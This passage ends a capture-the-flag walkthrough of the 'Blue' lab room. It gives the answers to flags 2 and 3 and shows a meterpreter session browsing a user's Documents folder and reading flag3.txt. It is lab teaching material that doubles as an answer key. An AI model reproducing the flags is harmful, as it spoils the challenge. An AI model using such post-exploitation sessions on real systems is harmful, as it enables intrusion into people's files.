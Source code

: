 
**Question:** Flag 2? **flag{sam_database_elevated_access}**

The third flag is in an _excellent location to loot_ and has something to do with the administrator of the system.  
After looking around a bit in Jon's Users folder:

```bash
meterpreter > cd C:\\Users\\Jon\\Documents
meterpreter > dir
Listing: C:\Users\Jon\Documents
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Music
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Pictures
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Videos
100666/rw-rw-rw-  402   fil   2018-12-13 03:13:48 +0000  desktop.ini
100666/rw-rw-rw-  37    fil   2019-03-17 19:26:36 +0000  flag3.txt

meterpreter > cat flag3.txt
flag{admin_documents_can_be_valuable}meterpreter >
```

**Question:** Flag 3? **flag{admin_documents_can_be_valuable}**

This concludes the Blue room, see you in the next one!
